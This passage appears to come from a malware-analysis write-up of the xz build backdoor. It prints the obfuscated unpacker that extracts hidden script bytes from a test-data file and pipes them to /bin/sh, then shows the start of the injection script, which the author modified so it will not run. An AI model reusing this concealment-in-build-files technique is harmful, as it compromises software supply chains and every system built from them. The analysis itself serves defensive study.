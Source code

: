 ```sh
#_LT_TAGDECL([], [gl_[$1]_config], [2])dnl
#AC_SUBST([$1_c_make])
```

Running just the transform line returns

```sh
####Hello####
#  Z .hj
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
    srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +724)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
####World####
xz: (stdin): Unexpected end of input
```

After unpacking the now uncorrupted bad-3-corrupt_lzma2.xz, we see an unpacker for the good-large_compressed.lzma, which manipulates the compressed.lzma file and pipes it to a shell.

### Step Three - The Script!

After executing this without the /bin/sh, we get a script that injects a function is_arch_extension_supported

The code below is a modified version of the script.

```sh

if test -f /bin/sh; then
    echo "Please do not run this script its bad code"
    exit 0
fi
if test -f /bin/bash; then
    echo "Please do not run this script its bad code"
    exit 0
fi

# Key behavior throughout, using x before checking for ENVIRONMENT

# Sets up pic flags for ggc compiler
P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
C="pic_flag=\" -fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections\""
O="^pic_flag=\" -fPIC -DPIC\"$"
# Sets up some key vars
R="is_arch_extension_supported" # target function
x="__get_cpuid("
p="good-large_compressed.lzma" # original in git dir
U="bad-3-corrupt_lzma2.xz"  # original in git dir
if test -f config.status; then

    # set up vars for some key tools like GCC
    eval `grep ^LD=\'\/ config.status`
    eval `grep ^CC=\' config.status`
    eval `grep ^GCC=\' config.status`
```